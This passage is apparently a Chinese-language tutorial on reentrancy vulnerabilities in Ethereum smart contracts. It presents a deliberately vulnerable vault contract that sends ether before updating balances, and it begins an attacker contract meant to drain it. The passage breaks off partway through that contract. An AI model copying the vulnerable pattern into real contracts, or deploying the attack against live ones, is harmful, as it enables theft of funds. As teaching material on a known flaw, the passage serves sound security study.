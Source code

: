 
## 重入漏洞

以太坊智能合约的特点之一是能够调用和利用其他外部合约的代码。合约通常也处理Ether，因此通常会将Ether发送给各种外部用户地址。调用外部合约或将以太网发送到地址的操作需要合约提交外部调用。这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码（即通过回退函数），包括回调自身。因此代码执行“ 重新进入 ”合约。这种攻击被用于臭名昭着的DAO攻击。

有关重新入侵攻击的进一步阅读，请参阅[重入式对智能合约](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4)和[Consensus - 以太坊智能合约最佳实践](https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert)。

### 漏洞

当合约将ether发送到未知地址时，可能会发生此攻击。攻击者可以在[fallback函数](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=fallback#fallback-function)中的外部地址处构建一个包含恶意代码的合约。因此，当合约向此地址发送ether时，它将调用恶意代码。通常，恶意代码在易受攻击的合约上执行一项功能，执行开发人员不希望的操作。“再入侵”这个名称来源于外部恶意合约回复了易受攻击合约的功能，并在易受攻击的合约的任意位置“ 重新输入”了代码执行。

为了澄清这一点，请考虑简单易受伤害的合约，该合约充当以太坊保险库，允许存款人每周只提取1个Ether。

EtherStore.sol：

```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

该合约有两个公共职能。`depositFunds()`和`withdrawFunds()`。该`depositFunds()`功能只是增加发件人余额。该`withdrawFunds()`功能允许发件人指定要撤回的wei的数量。如果所要求的退出金额小于1Ether并且在上周没有发生撤回，它才会成功。还是呢？...

该漏洞出现在[17]行，我们向用户发送他们所要求的以太数量。考虑一个恶意攻击者创建下列合约，

Attack.sol：

```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
```